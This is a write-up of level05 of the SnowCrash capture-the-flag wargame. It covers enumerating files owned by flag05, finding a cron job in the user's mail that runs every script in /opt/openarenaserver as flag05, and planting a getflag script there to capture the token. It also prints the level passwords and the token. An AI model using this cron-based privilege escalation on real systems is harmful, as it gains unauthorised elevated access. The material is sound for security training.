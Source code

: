 
as usual: su level05
password: ne2searoevaevoem4ov4ar8ap

Reconnaissance, Enumeration

```
level05@SnowCrash:~$ find / -user flag05 2>/dev/null | xargs file
/usr/sbin/openarenaserver:      POSIX shell script, ASCII text executable
/rofs/usr/sbin/openarenaserver: regular file, no read permission
```

or 
```
level05@SnowCrash:~$ find / -user flag05 -readable 2>/dev/null
/usr/sbin/openarenaserver
```

```
level05@SnowCrash:~$ find / -type f 2>/dev/null | xargs grep '/usr/sbin/openarenaserver' 2>/dev/null
Binary file /proc/28098/task/28098/cmdline matches
Binary file /proc/28098/cmdline matches
/var/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
/rofs/var/mail/level05:*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

**second method:**


ssh level05@10.12.100.98 -p 4242
level05's password: ne2searoevaevoem4ov4ar8ap
You have new mail.

quick google search: "linux mail path" gives the path of mails dir 

cat /var/spool/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

its a crontab apparantley
that runs At every 2nd minute, [check](https://crontab.guru/#*/2_*_*_*_*)

heading back to the path
```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

ulimit is a built-in Linux shell command that allows viewing or limiting system resource amounts that individual users consume. Limiting resource usage is valuable in environments with multiple users and system performance issues.

-t flag: Specifies a process's maximum running time, in seconds.

bash -x: The -x option starts a BASH shell in tracing mode.
	run the entire script in debug mode. Traces of each command

googling: `for every file in directory bash` will output similar results

**so the script loops over a directory, executes it then removes it.**

we can exploit that

 vim /opt/openarenaserver/exec_this
  getflag > /tmp/flag
 
 watch cat /tmp/flag


token : viuaaale9huek52boumoomioc